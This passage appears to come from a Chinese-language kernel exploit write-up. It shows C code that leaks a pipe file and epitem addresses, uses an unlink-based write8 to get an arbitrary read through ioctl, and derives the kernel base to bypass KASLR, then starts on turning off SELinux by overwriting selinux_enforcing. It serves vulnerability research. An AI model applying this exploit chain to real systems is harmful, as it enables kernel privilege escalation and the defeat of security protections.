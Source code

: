 请注意，我们将epitem的数据字段设置为addr – 24，其中24是超级块结构中s_blocksize的偏移量。同样，即使s_blocksize原则上是64位长度，但由于ioctl代码仅会将其中的32位复制回用户区域，所以如果要读取64位值，我们需要读取两次。<br>
现在，就拥有了一个任意读取，并且从最初泄露的内容中获得了结构文件的地址，我们可以简单地读取其f_op字段来检索内核.text指针。随后，将导致完全绕过KASLR：

```
/* Step 1: leak a pipe file address */

file = node_new("leak_file");

/* Only works on file implementing the 'epoll' function. */
while (!node_realloc_epitem(file, pipes[0]))
   node_reset(file);

uint64_t file_addr = file-&gt;file_addr;
log_info("[+] pipe file: 0x%lxn", file_addr);


/* Step 2: leak epitem address */
struct exp_node *epitem_node = node_new("epitem");
while (!node_kaddr_disclose(file, epitem_node))
   node_reset(epitem_node);

printf("[*] file epitem at %lxn", file-&gt;kaddr);

/* 
 * Alright, now we want to do a write8 to set file-&gt;f_inode.
 * Given the unlink primitive, we'll set file-&gt;f_inode = epitem + 80
 * and epitem + 88 = &amp;file-&gt;f_inode.
 * 
 * With this we can change f_inode-&gt;i_sb by modifying the epitem data, 
 * and get an arbitrary read through ioctl.
 *
 * This is corrupting the fllink, so we better don't touch anything there!
 */

struct exp_node *write8_inode = node_new("write8_inode");
node_write8(write8_inode, file-&gt;kaddr + 120 - 40 , file_addr + 0x20);

printf("[*] Write done, should have arbitrary read now.n");
uint64_t fop = read64(file_addr + 0x28);
printf("[+] file operations: %lxn", fop);

kernel_base = fop - OFFSET_PIPE_FOP;
printf("[+] kernel base: %lxn", kernel_base);
```



## 禁用SELinux并设置任意写入原语

现在，我们已经知道了内核的基址，可以使用我们的写入原语在selinux_enforcing变量上写入一个NULL qword并将SELinux设置为宽容模式（Permissive Mode）。我们的漏洞利用程序在设置任意写入原语之前会执行此擦欧哦，因为我们的技术实际上需要禁用SELinux。<br>
在考虑了几种选择之后，我们最终决定攻击内核用于处理/proc/sys的sysctl表，以及在相应位置挂起的所有数据。有许多描述这些变量的全局表，例如下面的kern_table：
